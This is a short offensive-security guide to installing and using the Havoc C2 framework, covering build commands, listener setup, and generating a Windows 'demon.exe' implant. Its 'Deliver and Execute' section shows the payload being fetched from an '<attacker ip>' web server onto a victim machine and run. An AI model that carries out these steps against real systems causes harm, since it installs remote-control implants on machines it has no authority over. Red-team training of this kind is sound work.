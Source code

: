 # ☸️ Havoc C2

## Havoc C2 Installation and Usage Guide

### Installation

```
# Install on Kali
sudo apt install havoc

# Manual Installation
git clone https://github.com/HavocFramework/Havoc.git

cd Havoc

sudo apt install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev qtdeclarative5-dev golang-go qtbase5-dev libqt5websockets5-dev python3-dev libboost-all-dev mingw-w64 nasm

# Build the Teamserver
cd teamserver
go mod download golang.org/x/sys
go mod download github.com/ugorji/go
cd ..

# Install musl Compiler & Build Binary (From Havoc Root Directory)
make ts-build

# Run the teamserver
./havoc server --profile ./profiles/havoc.yaotl -v --debug

# Build the client Binary (From Havoc Root Directory)
make client-build

# Run the client
./havoc client
```

### Create a Listener

```
View -> Listeners

Click on Add

Enter a Name

Select a Payload

Choose the Host(Bind)

Enter
```

### Create a Payload

```
Attack -> Payload

Select Arch as x64

Select Format as Windows exe

Select Sleep Technique as Ekko

Click on Generate
```

### Deliver and Execute

```
# On the attacker machine
python3 -m http.server 8080

# On the victim machine
iwr http://<attacker ip>:8080/demon.exe

# Execute (Victim machine)
.\demon.exe
```

### Lateral Movement

```
# Graph View
View -> Session View -> Graph

# Help menu
Right click on the machine -> Interact

Type help in the bottom pane

```

***

## REFERENCES

* https://chennylmf.medium.com/install-havoc-c2-framework-on-kali-linux-f174ee8014c6
* https://medium.com/@r1ckyr3c0n/havoc-c2-framework-part-1-installation-2024-2fbb8a1fe31c
* https://havocframework.com/docs/installation
* https://havocframework.com/docs/
* https://www.hackers-arise.com/post/command-control-series-part-i-installing-your-own-c2-server-on-kali-linux
